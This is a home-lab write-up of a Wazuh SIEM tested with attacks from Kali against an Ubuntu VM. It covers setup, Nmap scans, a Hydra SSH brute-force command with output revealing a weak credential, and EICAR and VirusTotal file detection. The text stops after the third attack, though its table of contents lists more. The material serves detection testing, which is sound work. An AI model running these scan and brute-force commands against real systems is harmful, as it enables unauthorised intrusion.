# Wazuh SIEM Lab: Attack Simulation & Log Detection

**Author:** Akshay Suresh


A fully isolated home-lab SIEM deployment built with **Wazuh**, used to detect and validate four realistic attack techniques executed from a **Kali Linux** attacker machine against an **Ubuntu Server** target. The goal was not just to collect logs, but to prove real detection value — attacking the environment and documenting exactly what Wazuh caught, what it missed, and why.

## Table of Contents

- [Abstract](#abstract)
- [Lab Network Architecture](#lab-network-architecture)
- [Prerequisites](#prerequisites)
- [Procedure](#procedure)
- [Attack Simulation and Detection](#attack-simulation-and-detection)
  - [Attack 1: Network Reconnaissance (Nmap)](#attack-1-network-reconnaissance-nmap)
  - [Attack 2: SSH Brute Force (Hydra)](#attack-2-ssh-brute-force-hydra)
  - [Attack 3: Malware Staging and Detection (EICAR + VirusTotal)](#attack-3-malware-staging-and-detection-eicar-test-file--virustotal-integration)
  - [Attack 4: Persistence via Malicious Cron Job](#attack-4-persistence-via-malicious-cron-job)
- [MITRE ATT&CK Mapping Summary](#mitre-attck-mapping-summary)
- [Log Analysis](#log-analysis)
- [Challenges](#challenges)
- [Conclusion](#conclusion)
- [References](#references)

## Abstract

This project designs, deploys, and validates a Wazuh-based Security Information and Event Management (SIEM) lab inside an isolated VirtualBox network. A Wazuh Manager (OVA appliance), a Wazuh-agent-instrumented Ubuntu Server target, and a Kali Linux attacker machine were connected over a dedicated Host-only network. Four attack techniques spanning the stages of a realistic intrusion — reconnaissance, credential access, execution of malicious content, and persistence — were executed against the target, and the resulting Wazuh alerts (or lack thereof) were captured, analyzed, and mapped to the MITRE ATT&CK framework. The project also configured and validated Wazuh's File Integrity Monitoring (FIM) and native VirusTotal integration, escalating a low-confidence file-change event into a high-confidence, independently verified malware alert.

## Lab Network Architecture

| Machine | Role | Adapters | IP Address |
|---|---|---|---|
| Wazuh Manager (OVA) | SIEM Manager / Indexer / Dashboard | Host-only | 192.168.56.102 |
| Ubuntu Server | Monitored target (Wazuh Agent) | Host-only (+ temporary NAT during setup) | 192.168.56.103 |
| Kali Linux | Attacker machine | Bridged (eth0, internet) + Host-only (eth1, lab access) | 192.168.56.104 / 192.168.1.79 |

All three machines shared a common **Host-only** VirtualBox network (`192.168.56.0/24`), fully isolated from the host's home LAN except for Kali's additional Bridged adapter used solely for internet access during tool updates.

## Prerequisites

**Hardware:** Host laptop — Intel i7-14700HX, 16 GB RAM

**Software:**
- Oracle VirtualBox
- Wazuh OVA (Manager / Indexer / Dashboard, all-in-one appliance)
- Ubuntu Server (target, with Wazuh Agent 4.14.9)
- Kali Linux (pre-configured attacker VM)

## Procedure

### 1. Installation of VirtualBox
VirtualBox was already installed and used as the hypervisor for all three virtual machines in this lab.

### 2. Deployment of Wazuh Manager
The Wazuh OVA was imported into VirtualBox and brought online. Since the appliance ships without VirtualBox Guest Additions (no clipboard support in the console), all subsequent administration was performed over SSH from the Windows host instead.


*Wazuh Manager virtual appliance running in the VirtualBox console.*

### 3. Troubleshooting: OpenSearch Disk Watermark Exception
On first login to the Wazuh Dashboard, the following errors were encountered, indicating that the OVA's default disk allocation had filled close to its threshold, placing OpenSearch's indices into a read-only state:

```
flood-stage disk watermark [95%] exceeded ... index has read-only-allow-delete block
```

This was resolved by freeing disk space and clearing the read-only block using the indexer's **admin certificate** (not password auth, which the security API requires for this class of operation):

```bash
curl -k -XPUT "https://localhost:9200/_all/_settings" \
  --cert /etc/wazuh-indexer/certs/admin.pem \
  --key /etc/wazuh-indexer/certs/admin-key.pem \
  -H 'Content-Type: application/json' \
  -d '{"index.blocks.read_only_allow_delete": null}'
```

### 4. Dashboard Access
The Wazuh Dashboard was confirmed reachable and loaded cleanly after the disk/index issue was resolved.

### 5. Deployment of the Ubuntu Server Target
Ubuntu Server was installed as a VM with a Host-only network adapter matching the Wazuh lab subnet.

### 6. Installing the Wazuh Agent on the Target
OpenSSH Server had been missed during the initial Ubuntu installer, so a temporary NAT adapter was enabled to install it:

```bash
$ sudo apt update
$ sudo apt install -y openssh-server
$ sudo systemctl enable --now ssh
$ sudo systemctl status ssh
● ssh.service - OpenBSD Secure Shell server
     Active: active (running)
```

The temporary NAT adapter was then disabled again to keep the target machine isolated to the lab network only. The Wazuh Agent (matching manager version 4.14.9) was then downloaded and installed, again temporarily using NAT for internet access:

```bash
$ curl -so wazuh-agent.deb https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.14.9-1_amd64.deb
$ sudo WAZUH_MANAGER='192.168.56.102' dpkg -i ./wazuh-agent.deb
$ sudo systemctl daemon-reload
$ sudo systemctl enable wazuh-agent
$ sudo systemctl start wazuh-agent
$ sudo systemctl status wazuh-agent
● wazuh-agent.service - Wazuh agent
     Active: active (running)
```

The NAT adapter was disabled once the agent was installed and registered, restoring full network isolation for the target.

### 7. Agent Registration Verification
The Wazuh Dashboard's Agents / Threat Hunting view confirmed the Ubuntu target as registered and **Active**, with correct hostname (`ubuntu`) and IP (`192.168.56.103`).

### 8. Deployment and Network Configuration of the Attacker Machine (Kali Linux)
Kali Linux was already available as a pre-configured virtual machine. Its primary adapter (eth0) remained Bridged to preserve internet access for tool updates, and a second adapter (eth1) was added and set to the same Host-only network as the other two machines, giving Kali dual connectivity: internet via eth0, and isolated lab access via eth1.

```bash
$ ip a
...
2: eth0: ... inet 192.168.1.79/24 ... (Bridged — home LAN / internet)
3: eth1: ... inet 192.168.56.104/24 ... (Host-only — isolated lab network)
```

Traffic destined for the `192.168.56.0/24` lab subnet is automatically routed via eth1, while all other traffic uses eth0, with no manual routing configuration required.


*Kali Linux with both adapters active: eth0 (Bridged) for internet, eth1 (Host-only) for isolated lab access.*

### 9. Connectivity Verification
Before any attacks were executed, connectivity from Kali to both the Ubuntu target and the Wazuh Manager was confirmed via ICMP ping (see Lab Network Architecture above), with 0% packet loss in both directions.

## Attack Simulation and Detection

With the lab fully provisioned and connected, four attack scenarios were executed from the Kali Linux attacker machine against the Ubuntu target, chosen to represent successive stages of a realistic intrusion: reconnaissance, credential access, execution of malicious content, and persistence. Each attack's resulting Wazuh detection (or lack thereof) was captured directly from the Wazuh Dashboard and the underlying alert logs.


*Figure 1: Wazuh "Threat Hunting" dashboard for the registered Ubuntu agent, showing baseline authentication and system activity before any attacks were executed.*

### Attack 1: Network Reconnaissance (Nmap)

**MITRE ATT&CK Technique:** T1046 – Network Service Discovery (Tactic: Reconnaissance)

The first stage of the attack chain simulated an attacker performing reconnaissance against the target to identify open ports, running services, and the operating system, before deciding on a further attack vector.

```bash
$ nmap -sV -O -n 192.168.56.103
Nmap scan report for 192.168.56.103
Host is up (0.00064s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:20:7A:6A (Oracle VirtualBox virtual NIC)
No exact OS matches for host.
Network Distance: 1 hop

$ sudo nmap -A -T4 -n 192.168.56.103
(aggressive scan: OS/version detection, script scanning, traceroute)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.8 (Ubuntu Linux; protocol 2.0)
TRACEROUTE
HOP RTT     ADDRESS
1   0.55 ms 192.168.56.103
```

**Result:** Nmap identified a single open port (22/tcp, OpenSSH 10.2p1) and was unable to confidently fingerprint the operating system, a common outcome against virtualized targets.




**Detection Outcome**

A review of the Wazuh Dashboard for the scan time window showed no dedicated alert corresponding to the Nmap scans. This is an expected and notable finding: Wazuh's default ruleset is built around host-based telemetry, authentication logs, file integrity, and command execution, rather than raw network traffic analysis. A TCP SYN/connect scan of this kind does not, by itself, generate a log entry on the target host for Wazuh to analyze.

**Recommendation:** Detecting this class of network reconnaissance would require a complementary network-based intrusion detection system (e.g. Suricata or Snort) integrated with Wazuh, since host-based agents alone have limited visibility into scan traffic that does not complete a full connection or trigger an application-level log entry.

### Attack 2: SSH Brute Force (Hydra)

**MITRE ATT&CK Techniques:** T1110 – Brute Force (Tactic: Credential Access); T1078 – Valid Accounts (Tactic: Initial Access / Persistence)

Having identified SSH as the only exposed service, the attacker machine attempted to brute-force the `ubuntu` account's password using THC-Hydra and a small custom wordlist of common weak passwords.

```bash
$ echo -e "123456\npassword\nadmin\nroot\nubuntu\ntoor\nletmein\nqwerty\nwelcome\nchangeme" > passwords.txt

$ hydra -l ubuntu -P passwords.txt ssh://192.168.56.103 -t 4 -V
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10 login tries (l:1/p:10)
[DATA] attacking ssh://192.168.56.103:22/
[ATTEMPT] login "ubuntu" - pass "123456"
[ATTEMPT] login "ubuntu" - pass "password"
[ATTEMPT] login "ubuntu" - pass "admin"
[ATTEMPT] login "ubuntu" - pass "root"
[ATTEMPT] login "ubuntu" - pass "ubuntu"
[ATTEMPT] login "ubuntu" - pass "toor"
[22][ssh] host: 192.168.56.103   login: ubuntu   password: ubuntu
1 of 1 target successfully completed, 1 valid password found
```

**Result:** Hydra recovered a valid credential (`ubuntu` / `ubuntu`) after six attempts, producing the ideal brute-force signature of multiple rapid failures followed by one success.

**Detection Outcome**

The Wazuh Dashboard showed a clear spike in authentication-related alerts immediately following the attack, all correctly attributed to the Kali attacker's source IP (`192.168.56.104`):

| Wazuh Rule ID | Description | Level | Count |
|---|---|---|---|
| 5760 | sshd: authentication failed | 5 | 14 |
| 5715 | sshd: authentication success | 3 | 1 |
| 5557 / 5503 | unix_chkpwd / PAM: User login failed | 5 | multiple |
| 5501 / 5502 | PAM: Login session opened / closed | 3 | 2 |


*Figure 2: Expanded Wazuh alert document for Rule 5760 ("sshd: authentication failed"), showing source IP 192.168.56.104 and the raw syslog line.*


*Figure 3: Wazuh dashboard summary during the brute-force window — 19 total alerts, 14 authentication failures, 4 successes.*


*Figure 4: Wazuh Events list showing the full sequence of failed logins followed by the single successful login.*

A search for Wazuh's dedicated correlation-based brute-force rule (rule ID 5712, which fires when multiple failures from the same source are seen within a short window) returned no result, meaning the individual failure/success events were logged correctly but not escalated into a single consolidated "brute force detected" alert. This represents a tuning opportunity: lowering the frequency/threshold of the correlation rule, or enabling it explicitly, would allow Wazuh to raise a single high-confidence alert for this pattern rather than requiring an analyst to notice the cluster of individual events.

### Attack 3: Malware Staging and Detection (EICAR Test File + VirusTotal Integration)

**MITRE ATT&CK Techniques:** T1204 – User Execution (Tactic: Execution); T1588.001 – Obtain Capabilities: Malware (staged on the compromised host)

The EICAR test file is an industry-standard, harmless test string recognized by virtually all antivirus and detection engines as "malware" for testing purposes. It was used here to validate Wazuh's File Integrity Monitoring (FIM) and, subsequently, its ability to recognize genuinely malicious content via a VirusTotal integration.

#### 3a. File Integrity Monitoring (FIM)

Wazuh's agent configuration (`ossec.conf`) was updated to add real-time FIM coverage of the user's home directory:

```xml
<directories realtime="yes">/home/ubuntu</directories>
```

The EICAR test string was then written to a file in that directory:

```bash
$ echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > eicar_test.com
```


*Figure 5: Wazuh FIM alert, Rule 554 "File added to the system", showing the full path `/home/ubuntu/eicar_test.com`, detected in real time.*


*Figure 6: Wazuh dashboard confirming the syscheck (FIM) event for the newly created file.*

This alone demonstrates that a file-level change was detected, but it does not yet indicate that the file's content was recognized as malicious, only that something changed.

#### 3b. Extending Detection with VirusTotal

To close that gap, Wazuh's built-in VirusTotal integration was configured on the Manager (a free-tier VirusTotal API key was used) by adding the following block to the Manager's `ossec.conf` and restarting the `wazuh-manager` service:

```xml
<integration>
  <name>virustotal</name>
  <api_key>****************************</api_key>
  <group>syscheck</group>
  <alert_format>json</alert_format>
</integration>
```

With internet access temporarily enabled on the Manager (via a second NAT adapter), the file's SHA1 hash was independently confirmed against the VirusTotal API as malicious, with **57 of 61 engines** flagging it (e.g. Kaspersky – "EICAR-Test-File", Microsoft – "Virus:DOS/EICAR_Test_File", Sophos – "EICAR-AV-Test").

The EICAR file was then deleted and recreated to trigger a fresh detection pass through the now-active integration:

```bash
$ rm -f eicar_test.com
$ echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > eicar_test.com
```


*Figure 7: Wazuh VirusTotal alert, Rule 87105, Level 12 — "57 engines detected this file", with SHA1 hash and VirusTotal permalink captured directly in the alert.*

